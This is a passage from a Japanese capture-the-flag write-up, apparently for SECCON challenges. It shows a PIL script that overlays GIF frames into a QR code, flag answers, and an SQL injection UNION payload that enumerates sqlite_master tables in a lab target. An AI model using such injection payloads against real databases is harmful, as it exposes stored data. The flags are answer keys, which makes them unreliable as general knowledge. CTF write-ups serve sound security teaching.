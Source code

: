 ```python
```


```
FLAG{32638}
```

### 重ねてみよう (プログラミング 100)
afterimage.gif というアニメーション gif が渡される。

重ねてみようという問題のタイトルに従って、重ねるスクリプトを書いてみる。

```python
from PIL import Image

im = Image.open('afterimage.gif')

res = Image.new('RGB', (164, 164))
pix = res.load()

for y in range(164):
  for x in range(164):
    pix[x, y] = (255, 255, 255)

try:
  while True:
    print(im.tell())

    im2 = im.convert('RGB').load()

    for y in range(164):
      for x in range(164):
        if im2[x, y] != (0, 0, 0):
          pix[x, y] = (0, 0, 0)

    im.seek(im.tell() + 1)
except EOFError:
  pass

res.save('result.png')
```

QR コードが出てきたので、携帯で読み取ってみる。

```
FLAG{Many dot makes a QR code}
```

### 箱庭SQLiチャレンジ (Web 100)
まず `' and 0 union select sql, null, null, null, null from sqlite_master where type = 'table'; --` でどんなテーブルがあるか確認する。

```
ID=CREATE TABLE COMPANY(ID INT PRIMARY KEY NOT NULL, NAME TEXT NOT NULL,AGE INT NOT NULL, ADDRESS CHAR(50), SALARY REAL ) NAME=NULL AGE=NULL ADDRESS=NULL SALARY=NULL
ID=CREATE TABLE SECCON(FLAG TEXT NOT NULL) NAME=NULL AGE=NULL ADDRESS=NULL SALARY=NULL
```
